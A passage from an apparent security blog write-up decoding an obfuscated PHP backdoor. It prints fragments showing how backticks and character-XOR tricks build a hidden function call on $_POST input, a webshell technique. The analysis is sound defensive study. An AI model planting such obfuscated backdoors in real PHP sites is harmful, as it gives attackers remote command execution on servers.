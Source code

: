 shell_exec? Well that's certainly weird, I don't see a shell_exec a round here any place. Apparently it's on Line 1 of the PHP script too - let's isolate that line:
```php
<?php $_=``.[];
```
So, we have a variable, two backticks, and a string to array conversion, huh. Somehow this translates into shell_exec. According to the PHP Documentation, backticks can be used to execute a shell command.
![[https://blog.spookysec.net/img/Pasted image 20230622153944.png]](https://blog.spookysec.net/img/Pasted image 20230622153944.png)

Well, thats certainly a TIL! So in theory, if we were to add, I don't know, let's say ``id`` into the backticks, we *should* get a valid page back! Let's give it a shot...

![[https://blog.spookysec.net/img/Pasted image 20230622154221.png]](https://blog.spookysec.net/img/Pasted image 20230622154221.png)

aannndddd failure. But this time we have a really interesting error:
```php
127.0.0.1:26724 [500]: GET /backdoor.php - Uncaught Error: Call to undefined function yjyw() in /root/backdoor.php:18
Stack trace:
#0 {main}
  thrown in /root/backdoor.php on line 18
```
Well thats interesting. I definitely don't recall seeing any functions in the script. This error is on line 18, let's investigate:
```php
$_($$_55[_]);
```

Huh, so we have *what looks like* a function call to \$_ with ``$$_55[_]`` as an argument. So, what is \$$55? Let's modify our PHP code to echo out the contents of \$$55. We'll comment out the function call below so we don't accidentally crash the program. I'm going to keep id supplied as well, just so it doesn't crash.

```php
<?php $_=`id`.[];
$__=@$_;
$_= $__[0];
 $_1 = $__[2];
<snip>
$_++;
$_0 = $_;
$_++;
$_2 = ++$_;
 $_55 = '_'.(','^'|').('/'^'`').('-'^'~').(')'^'}');
echo $_55;
 $_ = $_2.$_1.$_2.$_0;
 //$_($$_55[_]);
?>
```

And the contents are in! It's... \_POST.

![[https://blog.spookysec.net/img/Pasted image 20230622160750.png]](https://blog.spookysec.net/img/Pasted image 20230622160750.png)
